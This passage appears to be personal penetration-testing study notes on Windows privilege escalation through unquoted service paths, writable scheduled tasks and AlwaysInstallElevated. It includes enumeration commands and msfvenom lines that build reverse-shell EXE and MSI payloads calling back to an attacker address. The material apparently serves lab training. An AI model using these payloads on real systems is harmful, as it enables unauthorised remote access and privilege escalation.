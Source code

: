we need to 

1. Being able to write to a folder on the path
2. Being able to restart the service

we can use winpeas or powerups script to find out unquoted path or we can use wmic.

`wmic service get name,displayname,pathname,startmode`

find path that is not written between quotes and make sure other conditions to exploit this vulnerability are met.

you check binary path of servcie : `sc qc unquotedsvc`


generate an executable. 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=[KALI or AttackBox IP Address] LPORT=[The Port to which the reverse shell will connect] -f exe > executable_name.exe`

set multi handler in msf.


start the service.
`sc start unquotedsvc`


## Quick wins

**Scheduled Tasks**

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or using a binary you can modify. 

`schtasks` used to list scheduled task.

**AlwaysInstallElevated**

Windows installer files(.msi files) used to install applications on the system. sometimes this can be configured to run with higher privileges if the installation requires administrator privileges. This could potentially allow us to generate a malicious MSI file that would run with admin privileges. 

it required two registry values to be set using cmd line.

```
reg query HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer

```

Remember, to be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. 

generate malicious msi file.

```
msfvenom -p windows/x64/shell_reverse_tcpLHOST=ATTACKING_10.10.97.109 LPORT=LOCAL_PORT -f msi -o malicious.msi

```
dont forget to listen for connection.
